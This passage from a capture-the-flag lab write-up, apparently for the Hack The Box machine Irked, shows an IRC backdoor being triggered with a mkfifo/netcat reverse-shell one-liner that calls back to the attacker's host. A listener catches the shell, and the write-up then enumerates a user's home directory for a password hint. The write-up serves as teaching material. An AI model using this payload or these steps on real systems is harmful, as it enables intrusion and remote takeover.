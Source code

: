 ```
kali@kali:~/htb/machines/irked/irc/exploit$ ncat 10.10.10.117 6697
:irked.htb NOTICE AUTH :*** Looking up your hostname...
AB; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.18 2001 >/tmp/f
```

On my Kali machine:

```
$ ncat -nvlp 2001
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::2001
Ncat: Listening on 0.0.0.0:2001
Ncat: Connection from 10.10.10.117.
Ncat: Connection from 10.10.10.117:41836.
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)
```

After getting a netcat reverse shell, I immediately [upgraded to a PTY](https://medium.com/bugbountywriteup/pimp-my-shell-5-ways-to-upgrade-a-netcat-shell-ecd551a180d2).

## Privilege Escalation - User Own (World Readable Password Hint)

After listing the content of the `/home` directory, I noticed the `djmardov` user. I enumerated their directory for sensitive information:

```
ircd@irked:/home/djmardov$ find . -ls 2>/dev/null
1061877    4 drwxr-xr-x  18 djmardov djmardov     4096 Nov  3  2018 .
1177472    4 drwx------   3 djmardov djmardov     4096 May 11  2018 ./.dbus
1061885    4 -rw-r--r--   1 djmardov djmardov      675 May 11  2018 ./.profile
1062684    0 lrwxrwxrwx   1 root     root            9 Nov  3  2018 ./.bash_history -> /dev/null
1177702    4 drwx------   2 djmardov djmardov     4096 May 11  2018 ./.ssh
1061894    4 drwxr-xr-x   2 djmardov djmardov     4096 May 14  2018 ./Downloads
1177456    4 drwxr-xr-x   2 djmardov djmardov     4096 May 15  2018 ./Documents
1177813    4 -rw-------   1 djmardov djmardov       33 May 15  2018 ./Documents/user.txt
1177807    4 -rw-r--r--   1 djmardov djmardov       52 May 16  2018 ./Documents/.backup
1177703    4 drwx------   2 djmardov djmardov     4096 May 15  2018 ./.gnupg
1061893    4 drwxr-xr-x   2 djmardov djmardov     4096 May 11  2018 ./Desktop
1177523    4 drwx------  13 djmardov djmardov     4096 May 15  2018 ./.cache
1177487    4 drwx------   3 djmardov djmardov     4096 Nov  3  2018 ./.gconf
1177477    4 drwx------   3 djmardov djmardov     4096 May 11  2018 ./.local
1061897    8 -rw-------   1 djmardov djmardov     4706 Nov  3  2018 ./.ICEauthority
1177457    4 drwxr-xr-x   2 djmardov djmardov     4096 May 11  2018 ./Music
1177455    4 drwxr-xr-x   2 djmardov djmardov     4096 May 11  2018 ./Public
1177467    4 drwx------  15 djmardov djmardov     4096 May 15  2018 ./.config
1061886    4 -rw-r--r--   1 djmardov djmardov      220 May 11  2018 ./.bash_logout
1061887    4 -rw-r--r--   1 djmardov djmardov     3515 May 11  2018 ./.bashrc
1177466    4 drwxr-xr-x   2 djmardov djmardov     4096 May 11  2018 ./Videos
1177458    4 drwxr-xr-x   2 djmardov djmardov     4096 May 11  2018 ./Pictures
1061895    4 drwxr-xr-x   2 djmardov djmardov     4096 May 11  2018 ./Templates
1177582    4 drwx------   4 djmardov djmardov     4096 May 11  2018 ./.mozilla
```
